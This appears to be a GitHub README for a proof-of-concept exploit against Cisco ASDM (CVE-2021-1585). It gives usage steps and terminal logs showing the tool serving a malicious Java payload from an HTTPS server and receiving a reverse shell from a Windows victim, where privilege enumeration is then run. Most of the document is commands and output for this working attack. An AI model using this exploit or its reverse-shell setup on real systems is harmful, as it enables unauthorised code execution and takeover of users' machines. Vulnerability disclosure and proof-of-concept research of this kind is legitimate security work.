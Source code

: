 # staystaystay

`staystaystay` is a proof of concept exploit for [CVE-2021-1585](https://nvd.nist.gov/vuln/detail/CVE-2021-1585), a man in the middle or evil endpoint RCE issue affecting Cisco ASA Device Manager (ASDM). The issue was originally discovered by [Malcolm Lashley](https://gist.github.com/mlashley/7d2c16e91fe37c9ab3b2352615540025) and disclosed in the summer of 2021. However, since the issue remains unpatched in the latest version (ASDM 7.17(1)), I stumbled upon this independently.

If a victim connects their ASDM to `staystaystay` then it will inject a [Longtime Sunshine](https://github.com/jbaines-r7/longtime-sunshine) payload resulting in a reverse shell. See the following video for an example:

https://www.youtube.com/watch?v=07VO2JGTWR8

## Usage

Clone and execute [Longtime Sunshine](https://github.com/jbaines-r7/longtime-sunshine). It will listen on 1270 by default.

```sh
albinolobster@ubuntu:~/longtime_sunshine$ sudo apt install nodejs npm
albinolobster@ubuntu:~/longtime_sunshine$ npm install
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$
```

Build and run `staystaystay`. It was written by a lazy hack so it has some outside dependencies: `lzma` and `javac`. The host *must* use Java 1.8 because that is what the ASDM client requires. `lhost` and `lport` should point the `Longtime Sunshine`:

```sh
albinolobster@ubuntu:~/staystaystay$ mkdir build
albinolobster@ubuntu:~/staystaystay$ cd build/
albinolobster@ubuntu:~/staystaystay/build$ cmake ..
-- The C compiler identification is GNU 10.3.0
-- The CXX compiler identification is GNU 10.3.0
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Check for working C compiler: /usr/bin/cc - skipped
-- Detecting C compile features
-- Detecting C compile features - done
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Check for working CXX compiler: /usr/bin/c++ - skipped
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/staystaystay/build
albinolobster@ubuntu:~/staystaystay/build$ make
Scanning dependencies of target staystaystay
[ 50%] Building CXX object CMakeFiles/staystaystay.dir/src/main.cpp.o
[100%] Linking CXX executable staystaystay
[100%] Built target staystaystay
albinolobster@ubuntu:~/staystaystay/build$ sudo ./staystaystay --lhost 10.0.0.3 --lport 1270
[sudo] password for albinolobster: 
[+] User provided a connect back target of 10.0.0.3:1270
[+] Compiling Payload using `javac PDMApplet.java SgzApplet.java`
[+] Creating JAR entries
[+] Compressing jar entries with `lzma -z jars`
[+] Adding sgz wrapper
[+] Flushing the pdm.sgz to disk
[+] Copying pdm.sgz to the http server
[+] Changing working directory to ../http
[+] Starting python server on :443. Hope you are running as root... it's fine.
Generating a RSA private key
...............................................................................................................................................................................................................................................++++
.......++++
writing new private key to 'key.pem'
-----
Server running on https://0.0.0.0:443
```

Upon successful exploit you should get something like this:

```
albinolobster@ubuntu:~/longtime-sunshine$ nodejs ./longtime.js 

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$ 
☀  Connection established by 10.0.0.25:62981
$ agent 0
lowlevel@10.0.0.25$ exec whoami /all

USER INFORMATION
----------------

User Name        SID                                          
================ =============================================
okhuman\lowlevel S-1-5-21-259238101-1730513016-1302440715-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users              Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## Credit

* Taylor Swift - [Acoustic version](https://www.youtube.com/watch?v=JbiTT82XAo0&t=2423s)
